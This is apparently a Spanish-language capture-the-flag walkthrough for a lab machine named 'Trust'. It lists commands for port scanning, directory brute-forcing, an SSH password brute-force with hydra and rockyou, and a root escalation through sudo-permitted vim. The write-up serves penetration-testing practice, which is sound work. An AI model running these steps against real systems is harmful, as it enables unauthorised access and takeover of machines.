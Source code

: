 Maquina: Trust

Autor: El Pinguino de Mario 

Dificultad: Muy Facil

![Screenshot 2024-11-09 080125](https://github.com/user-attachments/assets/f6c194b6-faf6-48a8-ae52-83426b55cdce)

ping 172.18.0.2 -c 1

![Screenshot 2024-11-09 080415](https://github.com/user-attachments/assets/8c0efa30-9efc-465d-8fc7-287bf60032ae)

sudo nmap -p- -sS -sC -sV --min-rate=5000 -n -vvv -Pn 172.18.0.2 -oN puertos

![Screenshot 2024-11-09 080603](https://github.com/user-attachments/assets/d8be8fd1-4573-45d5-8638-d2b3d1063a98)

sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u 'http://172.18.0.2/' -x .php,.sh,.py,.txt

![Screenshot 2024-11-09 082414](https://github.com/user-attachments/assets/254f0d83-03ef-411d-b8bc-13e9720a5956)

buscamos en el archivo encontrado y descubrimos el nombre de un usuario

![Screenshot 2024-11-09 081917](https://github.com/user-attachments/assets/179b4806-2761-4ada-ba1f-6f3412a80dde)

utilizamos hydra para conseguir la contraseña
hydra -l mario -P /usr/share/wordlists/rockyou.txt.gz ssh://172.18.0.2

![Screenshot 2024-11-09 082000](https://github.com/user-attachments/assets/94cf95bf-4cfc-431b-9a44-aa17118d1e6d)

entramos por ssh con la contraseña encontrada
ssh mario@172.18.0.2

![Screenshot 2024-11-09 082028](https://github.com/user-attachments/assets/ad4cec13-962b-4552-ac9e-2d07db6a0632)

sudo -l
descubrimos que podemos ejecutar el comando vim
sudo -u root /usr/bin/vim
:!/bin/bash
whoami

![Screenshot 2024-11-09 082127](https://github.com/user-attachments/assets/e676f853-c17e-4ebd-a807-ca4e61a7eda8)
